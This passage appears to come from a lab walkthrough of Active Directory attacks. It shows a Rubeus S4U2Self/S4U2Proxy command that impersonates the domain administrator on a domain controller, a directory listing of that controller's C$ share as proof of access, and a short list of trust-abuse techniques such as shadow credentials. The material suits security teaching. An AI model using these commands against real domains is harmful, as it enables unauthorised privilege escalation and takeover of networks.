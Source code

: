 ```
```
Step 4: S4U2Porxy and S4U2Self
```
PS C:\Users\harry\Desktop> .\Rubeus.exe s4u /dc:DC05.fabricorp.ad  /impersonateuser:administrator@fabricorp.ad /ptt /self /service:host/DC05.fabricorp.ad /altservice:cifs/DC05.fabricorp.ad /ticket:<base64>
```
Step 5: Access the Admin Shares

```
PS C:\Users\harry\Desktop> ls //DC05.fabricorp.ad//c$


    Directory: \\DC05.fabricorp.ad\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         4/4/2024   6:56 AM                inetpub
d-----        2/25/2022  10:20 AM                PerfLogs
d-r---         4/6/2024   5:30 PM                Program Files
d-----        9/15/2018   4:06 AM                Program Files (x86)
d-----        3/19/2022   5:56 AM                Temp
d-----         4/5/2024  10:18 AM                Tools
d-r---         4/4/2024   6:57 AM                Users
d-----         4/6/2024   5:46 PM                Windows
```

## Summary

### Abusing Trust

Exploiting AD trust relationships for access.

### Parent-Child Trust

Escalating privileges via parent-child domain trusts.

### Forest Trust

Expanding access across AD forests through forest trusts.

### Trust Account

Leveraging trust accounts to manage domain relationships.

### Trust with DACL + Shadow Credentials

Using ACL abuse and shadow credentials to gain elevated access.